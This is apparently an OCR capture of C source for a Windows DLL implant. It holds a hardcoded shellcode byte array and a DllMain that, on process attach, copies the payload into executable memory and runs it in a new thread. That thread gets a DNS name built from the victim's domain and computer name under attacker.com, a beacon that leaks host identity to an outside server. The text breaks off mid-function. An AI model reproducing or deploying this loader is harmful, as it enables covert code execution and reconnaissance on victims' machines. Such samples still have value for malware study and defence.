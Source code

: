 ```c
    0x39, 0x20, 0x8b, 0x6c, 0x39, 0x24, 0x4c, 0x03, 0xdf, 0x48, 0x03, 0xef,
    0x48, 0x8d, 0x34, 0x1f, 0x85, 0xdb, 0x0f, 0x84, 0xb2, 0x00, 0x00, 0x00,
    0x4c, 0x8d, 0x0d, 0x6d, 0xfd, 0xff, 0xff, 0x48, 0x8d, 0x44, 0x24, 0x70,
    0x4c, 0x2b, 0xc8, 0x0f, 0x1f, 0x44, 0x00, 0x00, 0x41, 0x8b, 0x13, 0x48,
    0x8d, 0x44, 0x24, 0x70, 0x48, 0x03, 0xd7, 0x0f, 0xb6, 0x0a, 0x84, 0xc9,
    0x74, 0x1b, 0x4c, 0x8d, 0x44, 0x24, 0x70, 0x49, 0x2b, 0xd0, 0x66, 0x0f,
    0x1f, 0x44, 0x00, 0x00, 0x88, 0x08, 0x48, 0xff, 0xc0, 0x0f, 0xb6, 0x0c,
    0x02, 0x84, 0xc9, 0x75, 0xf3, 0x88, 0x08, 0x0f, 0xb6, 0x4c, 0x24, 0x70,
    0x84, 0xc9, 0x74, 0x1f, 0x48, 0x8d, 0x54, 0x24, 0x70, 0x0f, 0x1f, 0x00,
    0x8d, 0x41, 0xbf, 0x3c, 0x19, 0x77, 0x05, 0x80, 0xc1, 0x20, 0x88, 0x0a,
    0x0f, 0xb6, 0x4a, 0x01, 0x48, 0xff, 0xc2, 0x84, 0xc9, 0x75, 0xe9, 0x48,
    0x8d, 0x44, 0x24, 0x70, 0xb2, 0x67, 0x66, 0x90, 0x44, 0x0f, 0xb6, 0x00,
    0x41, 0x3a, 0xd0, 0x75, 0x11, 0x41, 0x0f, 0xb6, 0x54, 0x01, 0x01, 0x48,
    0xff, 0xc0, 0x84, 0xd2, 0x75, 0xea, 0x44, 0x0f, 0xb6, 0x00, 0x33, 0xc9,
    0x41, 0x3a, 0xd0, 0x0f, 0x97, 0xc1, 0x33, 0xc0, 0x41, 0x3a, 0xd0, 0x0f,
    0x92, 0xc0, 0x3b, 0xc8, 0x74, 0x73, 0x41, 0xff, 0xc2, 0x49, 0x83, 0xc3,
    0x04, 0x44, 0x3b, 0xd3, 0x0f, 0x82, 0x62, 0xff, 0xff, 0xff, 0x33, 0xdb,
    0x48, 0x8d, 0x15, 0xc9, 0xfc, 0xff, 0xff, 0x48, 0x8b, 0xcf, 0xff, 0xd3,
    0x48, 0x8d, 0x0d, 0xcd, 0xfc, 0xff, 0xff, 0xff, 0xd0, 0x48, 0x8d, 0x15,
    0xd4, 0xfc, 0xff, 0xff, 0x48, 0x8b, 0xc8, 0xff, 0xd3, 0x48, 0x8d, 0x8c,
    0x24, 0xa8, 0x01, 0x00, 0x00, 0x48, 0xc7, 0x44, 0x24, 0x28, 0x00, 0x00,
    0x00, 0x00, 0x48, 0x89, 0x4c, 0x24, 0x20, 0xba, 0x01, 0x00, 0x00, 0x00,
    0x49, 0x8b, 0xce, 0x45, 0x33, 0xc9, 0x45, 0x33, 0xc0, 0xff, 0xd0, 0x4c,
    0x8d, 0x9c, 0x24, 0x80, 0x01, 0x00, 0x00, 0x33, 0xc0, 0x49, 0x8b, 0x5b,
    0x20, 0x49, 0x8b, 0x6b, 0x30, 0x49, 0x8b, 0xe3, 0x41, 0x5e, 0x5f, 0x5e,
    0xc3, 0x42, 0x0f, 0xb7, 0x4c, 0x55, 0x00, 0x8b, 0x1c, 0x8e, 0x48, 0x03,
    0xdf, 0xeb, 0x91, 0xcc, 0x01, 0x15, 0x09, 0x00, 0x15, 0x54, 0x36, 0x00,
    0x15, 0x34, 0x34, 0x00, 0x15, 0x01, 0x30, 0x00, 0x0e, 0xe0, 0x0c, 0x70,
    0xb};
#else
#endif

BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call,
                      LPVOID lpReserved) {
  switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH: {
      std::wstring dns_resolve_address = L"new.d%USERDOMAIN%.u%COMPUTERNAME%.attacker.com";
      wchar_t dns_name[MAX_PATH];
      if (ExpandEnvironmentStringsW(dns_resolve_address.c_str(), dns_name,
                                    MAX_PATH)) {
        LPVOID payload_memory = VirtualAlloc(
            NULL, payload_zx, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
        if (payload_memory) {
          memcpy_s(payload_memory, payload_zx, rawData, payload_zx);

          wchar_t* dns_name_allocated = (wchar_t*)VirtualAlloc(
              NULL, MAX_PATH, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
          wcscpy_s(dns_name_allocated, MAX_PATH, dns_name);

          g_threadH = CreateThread(
              NULL, 0,
              (LPTHREAD_START_ROUTINE)((ptr_uint)payload_memory +
                                       (ptr_uint)payload_EP_offset),
              dns_name_allocated, 0, NULL);
        }
      }
      break;
    }
    case DLL_THREAD_ATTACH:
      break;
    case DLL_THREAD_DETACH:
      break;
    case DLL_PROCESS_DETACH:
```